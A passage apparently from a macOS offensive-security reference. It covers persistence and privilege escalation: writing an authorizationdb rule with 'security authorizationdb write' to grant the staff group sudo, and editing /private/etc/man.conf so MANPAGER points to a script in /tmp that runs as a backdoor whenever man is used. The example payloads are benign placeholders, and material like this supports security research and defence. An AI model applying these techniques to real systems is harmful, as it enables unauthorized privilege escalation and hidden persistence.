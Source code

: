 ```bash
</plist>
EOF

security authorizationdb write com.asdf.asdf < /tmp/rule.plist
```

The **`evaluate-mechanisms`** will tell the authorization framework that it will need to **call an external mechanism for authorization**. Moreover, **`privileged`** will make it be executed by root.

Trigger it with:

```bash
security authorize com.asdf.asdf
```

And then the **staff group should have sudo** access (read `/etc/sudoers` to confirm).

### Man.conf

Writeup: [https://theevilbit.github.io/beyond/beyond\_0030/](https://theevilbit.github.io/beyond/beyond\_0030/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root and the user must use man
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* **`/private/etc/man.conf`**
  * Root required
  * **`/private/etc/man.conf`**: Whenever man is used

#### Description & Exploit

The config file **`/private/etc/man.conf`** indicate the binary/script to use when opening man documentation files. So the path to the executable could be modified so anytime the user uses man to read some docs a backdoor is executed.

For example set in **`/private/etc/man.conf`**:

```
MANPAGER /tmp/view
```

And then create `/tmp/view` as:

```bash
#!/bin/zsh

touch /tmp/manconf

/usr/bin/less -s
```

### Apache2

**Writeup**: [https://theevilbit.github.io/beyond/beyond\_0023/](https://theevilbit.github.io/beyond/beyond\_0023/)
